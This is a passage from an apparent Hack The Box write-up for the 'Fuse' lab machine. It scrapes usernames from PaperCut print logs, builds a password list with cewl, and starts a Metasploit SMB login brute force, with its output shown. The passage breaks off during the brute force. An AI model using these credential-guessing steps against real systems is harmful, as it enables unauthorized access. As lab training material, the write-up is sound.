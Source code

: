 On opening http://10.10.10.193 we get redirected to http://fuse.fabricorp.local/papercut/logs/html/index.htm

![Fuse](/assets/img/post/hackthebox/fuse/1.png)


So let's add `fuse.fabricorp.local` to  our host file 

After spending some time on website and trying fuzzing I only got few usernames from

```
http://fuse.fabricorp.local/papercut/logs/html/papercut-print-log-2020-05-29.htm
http://fuse.fabricorp.local/papercut/logs/html/papercut-print-log-2020-05-30.htm
http://fuse.fabricorp.local/papercut/logs/html/papercut-print-log-2020-06-10.htm
```

```bash
pmerton
tlavel
sthompson
bhult
```
Okay we got usernames but where we can use them and what is the password

We can use `cewl` to make a password list from website

```bash
cewl -d 5 -m 3 -w pass.lst  http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers
```

So after getting potential usernames and a password list let's see if we can mount smb shares


```bash
msf5 auxiliary(scanner/smb/smb_login) > set RHOST fuse.htb
RHOST => fuse.htb
msf5 auxiliary(scanner/smb/smb_login) > set user_file user2.txt
user_file => user2.txt
msf5 auxiliary(scanner/smb/smb_login) > set pass_file pass.list
pass_file => pass.list
msf5 auxiliary(scanner/smb/smb_login) > 
msf5 auxiliary(scanner/smb/smb_login) > run

[*] 10.10.10.193:445      - 10.10.10.193:445 - Starting SMB login bruteforce
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: '.\tlavel:Print',
[!] 10.10.10.193:445      - No active DB -- Credential data will not be saved!
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: '.\tlavel:2020',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: '.\tlavel:PaperCut',
................
```